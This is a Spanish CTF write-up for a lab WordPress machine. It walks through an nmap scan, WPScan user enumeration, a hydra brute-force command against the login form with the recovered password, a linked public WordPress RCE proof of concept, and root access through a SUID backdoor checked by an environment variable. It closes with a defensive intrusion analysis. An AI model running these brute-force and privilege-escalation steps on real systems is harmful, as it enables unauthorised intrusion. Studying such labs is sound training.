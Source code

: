 # Blog
Máquina de Wordpress un poco tricky de explotar sin MSF pero muy interesante

## Initial Scan
```
22/tcp  open  ssh         OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 57:8a:da:90:ba:ed:3a:47:0c:05:a3:f7:a8:0a:8d:78 (RSA)
|   256 c2:64:ef:ab:b1:9a:1c:87:58:7c:4b:d5:0f:20:46:26 (ECDSA)
|_  256 5a:f2:62:92:11:8e:ad:8a:9b:23:82:2d:ad:53:bc:16 (ED25519)
80/tcp  open  http        Apache httpd 2.4.29 ((Ubuntu))
|_http-generator: WordPress 5.0
| http-robots.txt: 1 disallowed entry 
|_/wp-admin/
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Billy Joel&#039;s IT Blog &#8211; The IT blog
139/tcp open  netbios-ssn Samba smbd 4.7.6-Ubuntu (workgroup: WORKGROUP)

```
## Enum
### HTTP 
Añadimos blog.thm a /etc/hosts
Teniendo un Wordpress lo primero es tirar de WPScan
```bash
wpscan --url blog.thm -e u
```
Enumeramos usuarios
```
[i] User(s) Identified:

[+] kwheel
 | Found By: Author Posts - Author Pattern (Passive Detection)
 | Confirmed By:
 |  Wp Json Api (Aggressive Detection)
 |   - http://blog.thm/wp-json/wp/v2/users/?per_page=100&page=1
 |  Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 |  Login Error Messages (Aggressive Detection)

[+] bjoel
 | Found By: Author Posts - Author Pattern (Passive Detection)
 | Confirmed By:
 |  Wp Json Api (Aggressive Detection)
 |   - http://blog.thm/wp-json/wp/v2/users/?per_page=100&page=1
 |  Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 |  Login Error Messages (Aggressive Detection)

[+] Karen Wheeler
 | Found By: Rss Generator (Passive Detection)
 | Confirmed By: Rss Generator (Aggressive Detection)

[+] Billy Joel
 | Found By: Rss Generator (Passive Detection)
 | Confirmed By: Rss Generator (Aggressive Detection)
```
Tiramos de BruteForcing
```
hydra -l kwheel -P /usr/share/wordlists/rockyou.txt $IP http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In&redirect_to=http%3A%2F%2Fblog.thm%2Fwp-admin%2F&testcookie=1:F=The password you entered for the username" -V
[80][http-post-form] host: 10.10.109.134   login: kwheel   password: cutiepie1
```
Sabiendo la version buscamos un Authenticated RCE y encontramos un CVE , como en esta casa no usamos Metasploit buscamos el POC del CVE
```
https://github.com/brianwrf/WordPress_4.9.8_RCE_POC
```
Una vez seguidos los pasos tenemos shell

## Privesc

Encontramos un SUID un tanto raro
```
/usr/sbin/checker
```
Lo observamos con ltrace y tenemos lo siguiente
```
getenv("admin") = nil
puts("Not an Admin"
    Not an Admin
  ) = 13
  ++ + exited(status 0) ++ +
```
Parce que lo que hace es verificar si una env variable tiene algún value
```
www-data@blog:/home/bjoel$ export admin=13
```
Y ya simplemente ejecutamos el SUID file en cuestión y pa dentro
```
www-data@blog:/home/bjoel$ /usr/sbin/checker
root@blog:/home/bjoel# id
uid=0(root) gid=33(www-data) groups=33(www-data)
```
Y listo

# Analisís de la intrusión
### Bad password policie 
La contraseña usada en WP se encuentra presente en rockyou
### WP bruteforce allowed
Existe un plugin que bloquea una IP tras N intentos fallidos pero no esta activo
### Vulnerable WP version
La versión de wordpress usada presenta una vuln RCE autentificado que nos permitio acceder a lá máquina
### Vulnerable SUID file
El SUID checker, no es que sea vulnerable perse, es que es realmente una backdoor para ser autentificado como root
